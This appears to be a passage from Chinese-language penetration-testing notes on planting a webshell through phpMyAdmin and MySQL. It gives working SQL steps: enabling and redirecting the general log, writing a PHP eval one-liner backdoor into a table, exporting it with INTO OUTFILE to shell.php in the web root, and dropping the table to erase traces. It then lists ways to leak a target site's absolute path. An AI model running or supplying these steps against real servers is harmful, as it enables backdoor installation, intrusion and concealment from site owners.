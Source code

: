 set global general_log = 'on' 日志保存状态

set global general_log_file = "" 日志保存路径

2、写入shell：

select '<?php eval($_POST[pwd]); ?>';

3）新建表getshell

1、进入一个数据库，新建数据表。

命令：Create TABLE shell_table (xxx text NOT NULL)

2、添加字段

字段名任意，xxx

字段类型为TEXT

3、在该表中点击插入，值为一句话木马

<div>
<?php eval($_POST[pwd]); ?>'
</div>

命令：Insert INTO shell_table (xxx) VALUES('<?php eval($_POST[1]);?>');

4、执行SQL查询，将该表中的内容导出到指定文件

select * from shell_table into outfile "D:/phpstudy_pro/WWW/shell.php";

5、删除该表，抹除痕迹

Drop TABLE IF EXISTS shell_table;

### phpMyadmin的防护

​![img](file:///C:\Users\Tralong\AppData\Local\Temp\ksohtml16720\wps57.jpg)​

# 爆路径方法

### 如何获取目标站点的绝对路径

1.如果是IIS系统，尝试对参数进行恶意传值，使其出现报错页面

2.如果目标是 TinkPHP框架，尝试访问无效的路径，或对参数进行恶意传值使其报错，出现TP特有的报错页面

3.使用字典猜解目标站点的绝对路径（实战中还是较为有效）

4.对目标站点进行JS代码审计，查看是否存在信息泄露出站点的绝对路径

5.phpinfo页面泄露站点绝对路径

### php爆绝对路径方法？

单引号引起数据库报错

访问错误参数或错误路径
